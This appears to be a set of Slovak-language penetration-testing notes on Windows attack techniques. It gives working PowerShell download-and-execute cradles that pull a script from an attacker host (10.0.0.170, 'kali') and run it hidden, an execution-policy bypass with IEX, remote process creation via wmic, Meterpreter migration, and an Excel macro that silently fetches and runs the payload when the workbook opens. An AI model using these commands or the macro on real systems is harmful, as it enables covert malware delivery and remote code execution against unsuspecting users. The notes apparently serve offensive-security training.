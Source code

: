 ## príklad schovania malwaru

stiahnut favicon.ico a napr v 50-100 byte zober string  
$a1=( new-object system.net.webclient ).downloadstring('<https://kali/favicon.ico').substring(49,50)>  
schovane cez -bxor, viac casti, ....  
dá sa použiť aj invoke-webrequest -> ale ten je dostupný len na novších powershelloch  

## obchádzanie spúštania powershell scriptov

powershell invoke-expression(type scipt.ps1)  
invoke-expression alias IEX  

napr.:  
viditelny:  
powershell -noexit iex(new-object system.net.webclient).downloadstring('http://10.0.0.170/msfx2.ps1')  
neviditelny:  
powershell -win hidden -noexit iex (new-object net.webclient).downloadstring('http://10.0.0.170/msfx2.ps1')  

↑ napr. zabalit cez iexpress.exe

### 32 bit na 64 bit win

64 bitove programy su v windows\system32  
32 bitove su v windows\syswow64\  
ak pustime z 32 bitove programu cmd v windows\system32. potom vidi windows\system32 s 32 bit programami, ak chceme pristupit k 64 bit treba ist cez: c:\windows\sysnative\cmd.exe  

wmic /node:"Student06-03" path win32_process call create commandline="c:\windows\syswow64\cmd.exe /c powershell -win hidden -noexit iex (new-object net.webclient).downloadstring('http://kali/msfx2.ps1')"

### meterpreter migrácia threadu na iný process

z meterpreter sessionu: migrate -N explorer.exe

### excell makrá

poznamka: excell spusta 32 bit cmd/powershell tj. windows\system32 je nalinkovana zlozka syswow64  
editor makier: alt+F11  
vlavo dvojklik na ThisWorkbook  

```
Private Sub Workbook_Open()
    Call Shell("powershell -win hidden -noexit iex (new-object net.webclient).downloadstring('http://10.0.0.170/msfx2.ps1')", vbHide)
End Sub
```

### powershell inšpirácia scriptov
